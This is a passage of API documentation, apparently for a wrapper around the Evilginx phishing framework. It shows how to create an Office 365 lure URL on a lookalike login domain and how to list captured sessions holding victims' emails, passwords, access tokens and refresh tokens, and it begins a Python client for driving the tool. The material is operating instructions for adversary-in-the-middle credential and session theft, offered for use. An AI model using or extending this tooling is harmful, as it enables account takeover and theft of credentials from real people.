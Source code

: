 #### Create Lure
```http
POST /api/lures
```

**Request Body:**
```json
{
  "phishlet_name": "office365"
}
```

**Response:**
```json
{
  "id": "2",
  "phishlet": "office365",
  "hostname": "login.secure-portal.com",
  "path": "/XyZ123",
  "url": "https://login.secure-portal.com/XyZ123",
  "created_at": "2024-01-15T10:30:00Z",
  "raw_output": "Lure creation output..."
}
```

### Session Management

#### List Captured Sessions
```http
GET /api/sessions
```

**Response:**
```json
{
  "sessions": [
    {
      "id": "1",
      "raw": "[1] [user@company.com] [password123] [tokens] @ 192.168.1.100",
      "tokens": {
        "access_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIs...",
        "refresh_token": "1//04_refresh_token_here...",
        "session_id": "abc123def456"
      }
    }
  ],
  "raw_output": "Raw sessions output...",
  "timestamp": "2024-01-15T10:30:00Z"
}
```

## 🛠️ Examples

### Python Client Example
```python
import requests
import json

class EvilginxAPI:
    def __init__(self, base_url, api_token):
        self.base_url = base_url
        self.headers = {
            'Authorization': f'Bearer {api_token}',
            'Content-Type': 'application/json'
        }
    
```
